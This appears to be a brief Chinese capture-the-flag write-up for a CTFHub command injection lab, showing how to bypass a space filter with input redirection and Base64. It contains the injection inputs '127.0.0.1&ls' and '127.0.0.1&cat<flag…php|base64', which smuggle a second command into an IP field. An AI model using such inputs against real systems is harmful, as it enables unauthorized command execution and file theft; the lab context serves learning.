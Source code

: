 ### < 加 |Base64 绕过空格

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687cb38d58cb8da5c8c86f8a.png)

输入 `127.0.0.1&ls` 看到 flag 文件

![](https://pic1.imgdb.cn/item/687cb3a958cb8da5c8c86f95.png)

利用重定向配合 Base64 拿到 flag

```sh
127.0.0.1&cat<flag_94851679315785.php|base64
```

`![](https://pic1.imgdb.cn/item/687cb42058cb8da5c8c86fc9.png)